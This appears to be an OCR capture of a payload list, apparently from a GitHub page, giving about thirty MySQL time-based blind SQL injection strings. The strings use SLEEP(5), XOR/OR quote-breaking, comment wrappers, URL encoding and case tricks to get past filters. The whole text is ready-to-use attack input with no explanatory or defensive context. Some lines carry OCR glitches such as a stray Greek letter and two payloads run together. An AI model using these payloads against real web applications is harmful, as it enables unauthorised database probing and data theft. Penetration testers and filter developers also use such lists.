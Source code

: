 #### MySQL Blind (Time Based) Payload list:

- 0'XOR(if(now()=sysdate(), sleep (5),0)) XOR'Z
- 0'XOR(if(now()=sysdate(), sleep(5*1),0))XOR'Z
- if(now()=sysdate(), sleep (5),0)
- 'XOR(if(now()=sysdate(), sleep(5),0))XOR'
- 'XOR(if(now()=sysdate(), sleep(5*1),0))OR'
- if(now()=sysdate(), sleep (5),0)/"XOR(if (now()=sysdate(), sleep(5),0))OR"/
- if(now()=sysdate(), sleep (5),0)/*'XOR(if(now()=sysdate(), sleep(5),0))OR' "XOR(if(now()=sysdate(), sleep (5),0))OR"*/
- if(now()=sysdate(), sleep(5),0)/'XOR(if (now()=sysdate(),sleep(5),0))OR' "XOR(if(now()=sysdate(), sleep (5),0) and 5=5)"/
- SLEEP(5)/*' or SLEEP(5) or '" or SLEEP(5) or "*/
- %2c(select%5+%5from%5(select(sleep(5)))a)
- (select(0)from(select(sleep(5)))v)
- (SELECT SLEEP(5))
- '%2b(select*from(select(sleep(5)))a)%2b'
- (select*from(select(sleep(5)))a)
- 1'%2b(select*from(select(sleep(5)))a)%2b'
- (select * from (select(sleep(5)))a)
- desc%2c(select*from(select(sleep (5)))a)
- -1+or+1%3d((SELECT+1+FROM+(SELECT+SLEEP(5))Α))
- 1+or+1=((SELECT+1+FROM+(SELECT+SLEEP(5))A)) - (SELECT * FROM (SELECT(SLEEP(5)))YYYY)
- (SELECT * FROM (SELECT(SLEEP(5)))YYYY)#
- (SELECT * FROM (SELECT(SLEEP(5)))YYYY) --
- '+(select*from(select(sleep(5)))a)+'
- select(0)from(select(sleep(5)))v)%2f'+ (
- (select(0)from(select(sleep(5)))v)+'"
- (select(0)from(select(sleep(5)))v)%2f*'+
- (select(0)from(select(sleep(5)))v)+'"+
- (select(0)from(select(sleep(5)))v)+"*%2f
- (select(0)from(select(sleep(5)))v)/*'+
- (select(0)from(select(sleep(5)))v)+'"+
- (select(0)from(select(sleep(5)))v)+"*/
- ',''), /*test*/%26%26%09sLeEp(5)%09--+
